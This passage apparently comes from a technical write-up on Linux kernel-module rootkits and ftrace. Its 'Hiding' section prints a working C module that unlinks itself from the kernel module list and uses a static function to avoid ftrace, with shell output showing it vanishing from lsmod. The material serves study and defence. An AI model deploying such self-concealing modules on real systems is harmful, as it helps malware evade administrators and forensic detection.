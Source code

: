  This is also a way to make an LKM rootkit "useless", preventing it from performing any action, as most current and public rootkits use ftrace. Of course, this is not 100% foolproof, as you just need to turn ftrace back on. However, many people don't know (I think) that it is possible to disable ftrace on the machine. Despite this, disabling ftrace and trying to analyze the machine looking for suspicious processes, directories, etc., is still ineffective.

# 6. Hiding

Hiding an LKM from tracing is relatively easy, with some specific techniques, we can also manipulate the way functions are registered and exposed in the kernel tracing system.

 A method that helps a lot with this is to use static or notrace functions, like this code here:

```c
root@infect:~/hidden_func# cat lkm.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>

static void mtz(void) {
    printk(KERN_INFO "So eh um pequeno exemplo! Func escondida.\n");
}

static int __init inferi_init(void) {
    printk(KERN_INFO "LKM carregadoo!\n");
    mtz();
    list_del(&THIS_MODULE->list);
    return 0;
}

static void __exit inferi_exit(void) {
    printk(KERN_INFO "LKM removido!!\n");
}

module_init(inferi_init);
module_exit(inferi_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("et bilu");
MODULE_DESCRIPTION("brazilian phonk estragou o phonk.");
root@infect:~/hidden_func#
```

 In the example above, "mtz" is a static function that will not be exported and therefore will not appear in the list of functions available for tracing. Being prevented from registering it as a tracepoint.


```
root@infect:~/hidden_func# insmod lkm.ko
root@infect:~/hidden_func# lsmod|grep lkm
root@infect:~/hidden_func# cat /sys/kernel/tracing/available_filter_functions|grep lkm
root@infect:~/hidden_func# cat /sys/kernel/tracing/available_filter_functions|grep mtz
root@infect:~/hidden_func#
root@infect:~/hidden_func#
root@infect:~/hidden_func# cat /proc/kallsyms|grep lkm
ffffffffc0b69010 T inferi_init	[lkm]
root@infect:~/hidden_func# cat /proc/kallsyms|grep mtz
ffffffff911f8300 T _RNvXsa_NtCs3AkgXgqgK6r_4core3fmtzNtB5_5Debug3fmt
ffffffff911f8300 T _RNvXsb_NtCs3AkgXgqgK6r_4core3fmtzNtB5_7Display3fmt
ffffffff9253527c r __ksymtab__RNvXsa_NtCs3AkgXgqgK6r_4core3fmtzNtB5_5Debug3fmt
ffffffff9253533c r __ksymtab__RNvXsb_NtCs3AkgXgqgK6r_4core3fmtzNtB5_7Display3fmt
root@infect:~/hidden_func#
```
